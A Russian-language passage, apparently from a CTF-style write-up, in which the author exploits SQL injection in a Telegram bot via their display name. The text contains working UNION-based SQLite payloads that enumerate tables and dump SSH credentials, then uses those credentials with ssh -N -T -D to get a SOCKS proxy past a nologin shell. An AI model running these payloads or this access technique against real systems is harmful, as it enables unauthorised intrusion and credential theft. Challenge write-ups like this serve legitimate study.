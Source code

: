Окей, наверняка второй SSH-сервер там не просто так. Его вполне можно использовать и как SOCKS-прокси, и как средство для проброса отдельного порта себе. Найти бы только логин/пароль к нему. Выданные ботом не подходят сюда, так что помучаем его, ибо нефиг.

Меняем своё имя в Telegram на одинарную кавычку, после чего пишем боту. Получаем `SQL Error! unrecognized token: "'"`. Да это же SQL-инъекция в чистом виде! По тексту ошибки делаем вывод, что перед нами SQLite. Прекрасно, делаем всё как обычно:

* подбираем количество столбцов
```
ИМЯ:   Forst' AND 1=0 UNION SELECT '1','2','3','4'/*
ОТВЕТ: … 2
```
* вытаскиваем название таблицы
```
ИМЯ:   Forst' AND 1=0 UNION SELECT '1',name,'3','4' FROM sqlite_master WHERE type='table'/*
ОТВЕТ: … users
```
* выводим структуру таблицы
```
ИМЯ:   Forst' AND 1=0 UNION SELECT '1',sql,'3','4' FROM sqlite_master WHERE type='table'/*
ОТВЕТ: … CREATE TABLE users (userid text, userpass text, fullname text, ssh boolean)
```

Похоже, нас будут интересовать только пользователи, у которых разрешён доступ к SSH, то есть атрибут `ssh` установлен в значение `TRUE`.

* забираем данные нужной учётной записи
```
ИМЯ:   Forst' UNION SELECT '1',PRINTF('%s %s %s',userid,userpass,fullname),'3','4' FROM users WHERE ssh = 1/*
ОТВЕТ: … 1 durovportfwd durov
```

Ура, у нас теперь есть логин `durov` и пароль `durovportfwd`. Пароль даже намекает, что делать дальше. Пробуем в SSH:

```
$ ssh -D 12345 -p 2222 durov@172.104.226.97                                                                       :(
Host key fingerprint is SHA256:qKXJng95VcBQQL3wldoqZxJ3O1rl2qodKxvou4NI4/8
durov@172.104.226.97's password: durovportfwd
This account is currently not available.
```

Логин/пароль подошли, но теперь выдаётся сообщение о недоступности учётной записи. Такое появляется, когда в качестве шелла для учётной записи установлен, например, `/sbin/nologin` — его цель не давать пользователю выполнять никакие команды на сервере. Но нам то это не нужно! Отключаем запуск шелла и создание терминала вообще ключами `-N -T`:

```
$ ssh -N -T -D 12345 -p 2222 durov@172.104.226.97
Host key fingerprint is SHA256:qKXJng95VcBQQL3wldoqZxJ3O1rl2qodKxvou4NI4/8
durov@172.104.226.97's password: durovportfwd
```

Никакой ошибки нет, это значит что мы сделали всё верно! На порте 12345 открылся SOCKS-прокси, который замечательно работает:
